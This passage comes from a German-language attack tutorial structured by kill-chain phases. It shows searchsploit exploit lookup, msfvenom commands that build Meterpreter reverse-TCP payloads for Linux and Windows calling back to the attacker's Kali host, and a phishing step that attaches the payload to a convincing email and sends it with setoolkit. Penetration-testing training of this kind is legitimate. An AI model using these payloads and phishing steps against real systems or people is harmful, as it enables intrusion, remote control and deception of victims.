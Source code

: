             - **Erklärung:** Diese Nmap-Skripte versuchen, interessante Dateien, Header-Informationen und die `robots.txt`-Datei auf dem Webserver zu finden.

**Phase 2: Bewaffnung (Weaponization) - Gezielte Exploit-Auswahl**

1. **Identifizierung einer Schwachstelle:** Basierend auf den Informationen aus der Aufklärung (z.B. eine spezifische Version einer Webanwendung oder eines Dienstes mit bekannten Schwachstellen).
2. **Suche nach Exploits:**
    
    Bash
    
    ```
    searchsploit <Name der Anwendung> <Version>
    ```
    
    - **Erklärung:** `searchsploit` durchsucht die Exploit-DB nach passenden Exploits.
3. **Payload-Generierung (mit `msfvenom`):**
    - Angenommen, wir haben eine Schwachstelle gefunden, die uns erlaubt, Code auf dem Zielsystem auszuführen. Wir generieren einen Reverse TCP Payload:
        
        Bash
        
        ```
        msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Deine Kali-IP> LPORT=4444 -f elf -o payload.elf
        ```
        
        - `-p`: Payload (hier: Meterpreter Reverse TCP für Linux x86)
        - `LHOST`: Deine Kali Linux IP-Adresse
        - `LPORT`: Der Port, auf dem dein Kali Listener lauschen wird
        - `-f`: Format des Payloads (hier: ELF für Linux)
        - `-o`: Name der Ausgabedatei
    - Für Windows-Systeme könnte der Payload so aussehen:
        
        Bash
        
        ```
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Deine Kali-IP> LPORT=4444 -f exe -o payload.exe
        ```
        

**Phase 3: Zustellung (Delivery) - Auswahl des geeigneten Vektors**

1. **Phishing-Angriff (Beispiel):**
    - **Erstellen einer überzeugenden Phishing-E-Mail:** Nutzung von Informationen aus der OSINT-Phase, um eine glaubwürdige E-Mail zu verfassen, die den Benutzer dazu bringt, einen Anhang zu öffnen oder einen Link anzuklicken.
    - **Einbetten des Payloads:** Der generierte Payload (z.B. `payload.exe` oder ein präpariertes Dokument mit einem Makro) wird an die E-Mail angehängt.
    - **Versenden der E-Mail:** Verwendung eines E-Mail-Clients oder eines spezialisierten Tools wie `setoolkit` für automatisierte Phishing-Kampagnen.
        
        Bash
        
        ```
        sudo setoolkit # Auswahl der Phishing-Optionen
        ```
        